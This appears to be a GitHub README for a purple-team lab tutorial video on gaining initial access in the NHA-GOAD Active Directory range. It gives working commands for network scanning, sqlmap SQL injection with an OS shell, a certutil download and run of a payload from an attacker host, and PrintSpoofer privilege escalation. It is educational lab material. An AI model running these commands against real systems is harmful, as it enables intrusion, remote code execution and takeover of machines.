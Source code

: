 ## **05 - Initial Access - Purple Team Cyber Range with NHA-GOAD**

This GitHub page is a companion to the fifth video in our **Purple Team Cyber Range** series, where we explore how to gain **initial access** using techniques such as **SQL injection** and other offensive tactics in the **NHA-GOAD** Active Directory lab environment. The lab is designed for attack and defense exercises, providing a realistic experience for both red and blue teams.

## 📺 **Watch the Video**

**Video Title**: _05 - Initial Access - Purple Team Cyber Range with NHA-GOAD_  
[Watch the video on YouTube](https://youtu.be/ahpytVKtwK8) 

## 🛠️ **Key Takeaways**

1. **Initial Recon and Access**:
    
    - We start by performing a network scan using **Nmap** to identify open ports and services on the target machines.
    - After identifying potential vulnerabilities, we exploit them using **SQL injection** to gain initial access to the system.
    
2. **SQL Injection Exploitation**:
    
    - Learn how to use **SQLMap** to automate SQL injection attacks and gain access to the target database.
    - We also demonstrate how to escalate from SQL injection to an OS shell on the target machine.
    
3. **Command and Control (C2) Setup**:
    
    - Once initial access is gained, we set up a **Sliver C2 server** to manage the compromised machines.
    - We use reverse shells and other techniques to maintain persistent access.
    
4. **Privilege Escalation**:
    
    - After gaining initial access, we escalate privileges using tools like **SweetPotato** to obtain SYSTEM-level access.
    

## 📚 **Resources**

Here are some useful resources mentioned in the video:

- [NHA-GOAD Guide](https://docs.ludus.cloud/docs/environment-guides/goad-nha): Official documentation on setting up NHA-GOAD.
- [Elastic SIEM Guide](https://docs.ludus.cloud/docs/environment-guides/elastic): Guide on integrating Elastic Security SIEM.
- [GOAD GitHub Repository](https://github.com/Orange-Cyberdefense/GOAD): Source code and more information about GOAD from Orange Cyberdefense.

## Previous Videos:

- [Video 1: How to Deploy a Cyber Range Using Ludus: NHA-GOAD for Purple Teaming & Elastic Security SIEM](https://youtu.be/cjTzWQ_Si3U)
- [Video 2: How to Connect to Ludus GOAD with Elastic Using WireGuard](https://youtu.be/fM65Mm011bg)
- [Video 3: Testing Our Lab Against Default Sliver C2 Implants - The Lab Works!](https://youtu.be/L5DtvxOriOU)
- [Video 4: How to Install Sysmon in Active Directory Lab on Ludus](https://youtu.be/bK5Tnf92O-Y)

## 🚀 **Getting Started**

## 1. **Network Scanning**

Start by scanning the network to identify live hosts and open ports:



`nmap -p- -sC -sV 10.2.10.0/24 -Pn -oA allports.nmap`

![](../../05%20Images/Pasted%20image%2020241109225509.png)

This command performs a full port scan (`-p-`), service detection (`-sV`), and saves the results in multiple formats (`-oA`).

## 2. **SQL Injection Exploitation**

Once you've identified a vulnerable web server, use SQLMap to exploit SQL injection vulnerabilities:

`sqlmap -u "http://10.3.10.32/Students?SearchString=a&orderBy=Firstname" --os-shell --batch --threads 10`

This command attempts SQL injection on the specified URL and attempts to gain an OS shell.

## 3. **Command and Control (C2) Setup**


### Upload using sql shell
```
certutil.exe -split -f -urlcache http://10.2.10.99:8080/backup.exe 

#execute backup.exe
c:\windows\tasks\backup.exe
```


## 4. **Privilege Escalation**

To escalate privileges, upload a tool like SweetPotato or PrintSpoofer:

`upload /home/kali/payloads/PrintSpoofer.exe C:\\Windows\\Tasks\\PrintSpoofer.exe 
`execute -o "C:\windows\Tasks\PrintSpoofer.exe -i -c C:\Windows\Tasks\backup.exe"`

This command runs the PrintSpoofer tool, allowing you to escalate privileges from a local user account to SYSTEM.

![](../../05%20Images/Pasted%20image%2020241109225535.png)

## ⚠️ **Disclaimer**

This project is intended for **educational purposes only**. The tools and techniques demonstrated should only be used in environments where you have explicit permission to perform penetration testing or security assessments. Unauthorized use of these tools may violate laws and regulations.

## 🔧 **Tools Used**

- **Ludus Platform**: A cloud-based platform for deploying cybersecurity labs.
- **NHA-GOAD**: A pre-configured Active Directory environment designed for attack and defense simulations.
- **SQLMap**: An open-source tool used for automating SQL injection attacks.
- **Sliver C2 Framework**: An open-source command-and-control framework used by attackers for post-exploitation tasks.
- **SweetPotato/PrintSpoofer**: Tools used for privilege escalation on Windows systems.

Thank you for visiting! Be sure to subscribe to [I.T Security Labs on YouTube](https://www.youtube.com/@ITSecurityLabs) for more tutorials and updates!